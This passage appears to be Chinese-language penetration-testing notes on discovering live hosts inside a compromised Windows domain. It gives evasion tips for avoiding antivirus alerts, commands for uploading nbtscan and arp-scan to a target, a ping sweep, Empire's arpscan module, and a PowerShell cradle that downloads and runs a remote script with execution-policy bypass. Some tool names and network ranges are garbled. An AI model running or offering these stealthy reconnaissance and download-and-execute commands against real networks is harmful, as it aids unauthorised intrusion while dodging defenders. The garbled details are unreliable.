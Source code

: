 ####  <font color=red> 域内存活主机探测 </font>
1. 避免除法防病毒软件报警
2. 不要使用暴力的;
3. 不要使用图形化的工具
4. 使用powershell/vbs等自带的
5. 白天上班时间探测一遍，深夜分别探测一遍（对比分析存活主机对应的IP地址i）


**1.利用`netbios`快速探测**   （优先使用这个协议,会被认为是正常的通信）
工具：`nbtbios`
使用方法
```bash
# win和Linux下都有

# 这里用win版本的，上传到目标主机(推荐放到目标机器的windows/temp下面)
nbtscan.exe 192.168.111/24
```
参数说明(结果的第三列)：

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20200307145109927_29873.png" />


**2.利用`icmp`协议快速探测内网**
工具：
1.ping命令:
```bash
# for循环ping整个网段
for /L %l in (1,1,254) Do @ping -w 1 -n 192.168.111.%l |findstr "TTL="
```

2.VBS脚本
```bash
没写

# cscript xxx.vbs 运行脚本
```


**3.利用`arp`扫描完整探测内网**
工具：
1.arp-scan 
```bash
# 上传arp.exe 到目标机器运行
Arp.exe -t 192.168.0/20
```
2.Empire中的arpscan模块
```bash
usemodule situational_awareness/net/work/arpscan
set ...
execute
```
3.NiShang里面的脚本: `Invoke-ARPScan.ps1` 
```bash
# a.远程下载运行
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-ARPScan.ps1');Invoke-ARPScan -CIDR 192.168.1.0/20" >> C:\windows\temp\log.txt

# b.本地运行(先上传脚本到目标)
powershell.exe -nop -exec bypass -Command "&{Import-Module C:\windows\temp\Invoke-ARPScan.ps1;Invoke-ARPScan -CIDR 192.168.1.0/20}" >> C:\windows\temp\log.txt

# c.无条件运行(没痕迹)

```
